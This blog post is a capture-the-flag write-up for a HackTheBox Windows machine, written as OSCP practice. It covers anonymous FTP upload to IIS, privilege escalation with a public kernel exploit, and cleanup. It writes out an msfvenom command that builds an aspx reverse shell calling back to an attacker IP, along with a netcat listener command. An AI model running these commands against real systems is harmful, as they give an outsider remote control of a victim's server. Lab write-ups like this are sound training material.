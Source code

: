 ```yaml
---
layout: post
title:  "HTB - DAVEL - Without Metasploit"
date:   2020-02-11 08:07:19
categories: [HTB,Writeup,oscp-prep]
comments: true
image:
  feature: ![infocard](../img/infocard.png)
---
```


Davel is one of the easy windows OSCP like machine. The full list of OSCP like machine can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)

Let's get started!

<!--more-->

### Recon
 
Started with [nmapAutomater](https://github.com/21y4d/nmapAutomator) for recon and found FTP port open with anonymous access.

![nmap-result](../img/nmap-allowed-anonymous.png)

The machine also has port 80 open which looks like default IIS page.

![http-site](../img/http-site.png)

Whatever uploaded in the FTP can be accessed from HTTP.

### Exploitation

Creating aspx reverse shell using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4242 -f aspx > shell.aspx`

Uploading the aspx file to the ftp

![uploading shell](../img/uploading-shell-anonymous-ftp.png)

Accessing the shell from the HTTP to get the reverse tcp connection. Spawn the listener in attacker machine

`nc -nlvp 4242`

Got shell. But the user was IIS user and dosent have user or admin privilege.

### Privilege escalation

![windows shell system info](../img/windows_shell_systeminfo.png)

From the system info we can understand the following:
1. Os Name : Windows 7 enterprise 
2. Os version : 6.1.7600
3. Hotfix : Not applied


Googled the OS name and its version for corresponding CVE and found a exploit on exploitdb.

![priv-exec](../img/priv-esc-exploitdb.png)

Use `searchsploit` to copy the exploit locally.

![searchsploit](../img/searchsploit.png)

Method to build the exe is given in the comment section of the exploit

![how to build](../img/how-to-build.png)

Compiling the exe file and creating python shell to transfer the exe file.

![compiling](../img/compiling%20and%20executing%20binary.png)

Using powershell, Downloading the exe file to the victim machine.

![powershell to donwload the file](../img/Download-files-in-windows.png)

Executing the exe file

![priv exec](../img/executing-shell-gaining-system-priv.png)

##### Owning User

![owning user](../img/owning-user.png)

##### Owning Administrator
![owning root](../img/owning-root.png)


### Cleanup

1. Deleting aspx shell from FTP

![ftp-cleanup](../img/cleanup-ftp.png)

2. Deleted privexec exe from the machine




